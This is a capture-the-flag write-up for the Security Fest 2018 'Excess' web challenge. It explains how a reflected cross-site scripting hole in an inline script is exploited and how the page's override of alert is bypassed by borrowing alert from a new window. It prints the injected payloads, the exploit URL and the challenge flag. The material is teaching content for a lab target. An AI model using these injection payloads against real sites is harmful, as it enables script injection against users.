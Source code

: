 # Excess
Category: `web`

Description: `This is some kind of reverse captcha to tell if the visitor is indeed a robot. Can you complete it?`

Service: `http://xss1.alieni.se:2999/`

Author: `avlidienbrunn`

Points: 51

### How to Solve
![Main website](https://github.com/fionachang/ctf-writeups/raw/master/2018/security_fest/img/excess/main.png)

The website provides a link to `http://xss1.alieni.se:2999/?xss=hello` but the link looks the same as the website. Here is the page source:

```html
<!DOCTYPE html>
<html lang="en">
  <head>
      <meta charset="UTF-8">
      <meta name="viewport" user-scalable="no" content="width=device-width, initial-scale=1">
      <link rel="stylesheet" href="/static/style.css" />
      <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>
      <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>
      <link rel="stylesheet" href="https://netdna.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css" />
      <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/mdbootstrap/4.3.0/css/mdb.min.css" />
  </head>
  <body>
      <script src="/static/no_alert_for_you.js"></script><section class="login-info">
<div class="container">
  <script>var x ='hello'; var y = `hello`; var z = "hello";</script>
  <div class="row main">
       <div class="form-header header">
          <h1 class="text-center ">Excess Ess</h1>
        </div>
    <div class="main-content">
          <div class="row" id="container">
            <hr>
            <h4 class="text-center black-text">Make alert(1) pop <a href="/?xss=hello">here</a> and submit the working URL in the form below.</h4>
          </div>
          <form method="post" action="/submit">
          <div class="input-group ">
            <span class="input-group-addon"><span class="glyphicon glyphicon-paperclip" aria-hidden="true"></span></span>
            <input type="text" class="form-control text-center" name="url" placeholder="URL that pops alert(1) without user interaction">
          </div>
          
          <div class="form-group ">
          <center>
              <input type="submit" value="submit" name="login" class="btn btn-green header btn-lg btn-block login-button"/>
              </center>
          </div>

          </form>
          
          <div class="form-group" id="container">
          </div>
      
      </div>
    </div></body></html>
```

The GET parameter `xss` controls the variable declared in a script tag in the page.

```html
<script>var x ='hello'; var y = `hello`; var z = "hello";</script>
```

Browsing to `http://xss1.alieni.se:2999/?xss='; alert(1); '` shows a prompt instead.

![Initial payload](https://github.com/fionachang/ctf-writeups/raw/master/2018/security_fest/img/excess/initial_payload.png)

The page source indicates that the script was successfully injected.

```html
<script>var x =''; alert(1); ''; var y = `'; alert(1); '`; var z = "'; alert(1); '";</script>
```

After looking closely at the page source, there is a javascript file defined before the payload.

```html
<script src="/static/no_alert_for_you.js"></script>
```

The file `no_alert_for_you.js` overrides the `window.alert` function to a prompt.

```javascript
/*

        If there is no alert,
            how can there be XSS?
                      /
                     /
            )            (
           /(   (\___/)  )\
          ( #)  \ ('')| ( #
           ||___c\  > '__||
           ||**** ),_/ **'|
     .__   |'* ___| |___*'|
      \_\  |' (    ~   ,)'|
       ((  |' /(.  '  .)\ |
        \\_|_/ <_ _____> \______________
         /   '-, \   / ,-'      ______  \
b'ger   /      (//   \\)     __/     /   \
                            './_____/

*/
window.alert = (x=>prompt("He confirm. He alert. But most of all he prompt."));
```

We can restore `window.alert` to the default alert function by using the alert function of another window. In this case, we are using the alert function of a new window.

_Note: You may need to enable pop-up._ 

```javascript
window.alert = window.open().alert;
```

Using `alert(1)` will create a pop-up in the new window. Thus, we will use `window.alert(1)` to create a pop-up in the main window instead. Here is the final payload:

```
'; window.alert = window.open().alert; window.alert(1); '
```

Browse to the following link to test our payload:

```
http://xss1.alieni.se:2999/?xss='; window.alert = window.open().alert; window.alert(1); '
```

![Final payload](https://github.com/fionachang/ctf-writeups/raw/master/2018/security_fest/img/excess/final_payload.png)

Enter the link to get the flag.

![Flag](https://github.com/fionachang/ctf-writeups/raw/master/2018/security_fest/img/excess/flag.png)

**Flag: `sctf{cr0ss_s1te_n0scr1ptinG}`**